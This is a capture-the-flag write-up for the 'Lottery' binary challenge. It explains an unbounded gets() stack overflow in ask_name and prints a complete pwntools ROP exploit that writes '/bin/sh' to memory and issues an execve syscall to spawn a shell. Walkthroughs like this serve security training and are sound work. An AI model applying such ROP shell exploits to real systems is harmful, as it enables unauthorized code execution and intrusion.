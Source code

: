 # Challenge Name : Lottery

Description : 
Attack the binary and get the flag!

We can connect with : 
```openssl s_client -connect tamuctf.com:443 -servername lottery -quiet```

* The first thing to do here might be to check for file info.

```lottery: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped```
* Since it is statically linked, the possibility of a ret2libc attack is eliminated.
* Another look into checksec would reveal that ```NX``` is enabled. 
* With NX enabled, we may not be able to inject a shellcode either. 

Initially, while running the program, we are prompted with three options, enter numbers, check numbers and enter name. However a look into check_numbers() in gdb reveals that entering the correct numbers is not enough to print the flag.
However we can see that ask_name() contains gets. Making use of this vulnerability we can make a syscall.

* Disasssembly of ask_name : 

```0x0000000000401470 <+0>:	push   rbp
   0x0000000000401471 <+1>:	xor    eax,eax
   0x0000000000401473 <+3>:	sub    rsp,0x40
   0x0000000000401477 <+7>:	mov    rbp,rsp
   0x000000000040147a <+10>:	mov    rdi,rbp
   0x000000000040147d <+13>:	call   0x401b34 <gets>
   0x0000000000401482 <+18>:	mov    rsi,rbp
   0x0000000000401485 <+21>:	lea    rdi,[rip+0x7bad]        # 0x409039
   0x000000000040148c <+28>:	xor    eax,eax
   0x000000000040148e <+30>:	call   0x401bd3 <printf>
   0x0000000000401493 <+35>:	add    rsp,0x40
   0x0000000000401497 <+39>:	pop    rbp
   0x0000000000401498 <+40>:	ret    
```
The buffer size defined is 0x48 bytes, but since gets is used, there is no limit to our input.
To do the syscall, we can make use of ROPgadgets and the following code :

# Python script :
```
from pwn import *

p = remote('localhost', 4444)
buf = 'a'*0x48
syscall = p64(0x00000000004016f9)
pop_rax = p64(0x000000000040100b)
pop_rdi = p64(0x401253)
pop_rsi = p64(0x4018ad)
pop_rdx = p64(0x0000000000401255)
mov_qword_ptr_rdi_rax = p64(0x401f37)

buf += pop_rax + p64(0x0068732f6e69622f) + pop_rdi + p64(0x40c730) + mov_qword_ptr_rdi_rax

buf += pop_rax + p64(0x3b)
buf += pop_rdi + p64(0x40c730)
buf += pop_rsi + p64(0x00) + pop_rdx + p64(0x00) + syscall


p.recvuntil("Action: ")
p.sendline('3')
p.sendline(buf)
p.interactive()
```

